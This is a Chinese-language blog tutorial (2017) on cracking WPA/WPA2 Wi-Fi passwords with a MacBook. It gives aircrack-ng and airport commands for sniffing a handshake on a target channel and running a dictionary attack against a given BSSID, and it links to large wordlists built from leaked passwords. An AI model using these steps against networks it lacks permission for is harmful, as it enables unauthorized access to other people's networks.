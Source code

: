 ```yaml
---
title: "使用macbook破解WPA/WPA2 wifi密码"
categories: [ "安全" ]
tags: [ "wifi安全" ]
draft: false
slug: "使用macbook破解WPAWPA2 wifi密码-使用macbook破解wpawpa2wifi密码"
date: "2017-04-08 07:02:47"
---
```




文本仅供学习交流。

我使用的系统是macbook pro 15：  
![][1] 

## 安装aircrack-ng

使用homebrew安装，命令：

    brew install aircrack-ng

## 抓包－抓取带密码的握手包

macbook自带了一个wifi工具：airport。

    sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

首先，断开wifi：

![][2] 

查看周围的wifi：

    $ /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s

![][3] 

查看本机的无线网卡设备：

    $ ifconfig

![][4] 

抓包：

airport可以使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。有一种攻击方式是reinjecting packet，它可以强制无线路由器重启，这样当用户自动连接时可以获得握手包。

    $ sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
    

![][5] 

en0是无线网卡设备；6是要破解wifi的CHANNEL。

静等用户连接wifi，获得握手包。

抓的包，保存在/tmp：  
![][6] 

## 破解wifi密码

获得握手包之后，我们还需要破解加密的密码。

好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

    $ sudo aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap

-w：指定字典文件；－b：指定要破解的wifi BSSID。

破解过程：

![][7] 

![][8] 

> 我使用的密码字典：  
> <http://pan.baidu.com/s/1clxaCA> (全，未压缩15G)
> 
> <http://pan.baidu.com/s/1o7MCcHk> (简，未压缩680M)

 [1]: /uploads/oss/2017-04-25-14916351304599.jpg ""
 [2]: /uploads/oss/2017-04-25-14916352564635.png ""
 [3]: /uploads/oss/2017-04-25-14916353046796.png ""
 [4]: /uploads/oss/2017-04-25-14916353616511.png ""
 [5]: /uploads/oss/2017-04-25-14916354174643.png ""
 [6]: /uploads/oss/2017-04-25-14916354348804.png ""
 [7]: /uploads/oss/2017-04-25-14916355146375.png ""
 [8]: /uploads/oss/2017-04-25-14916355204535.png ""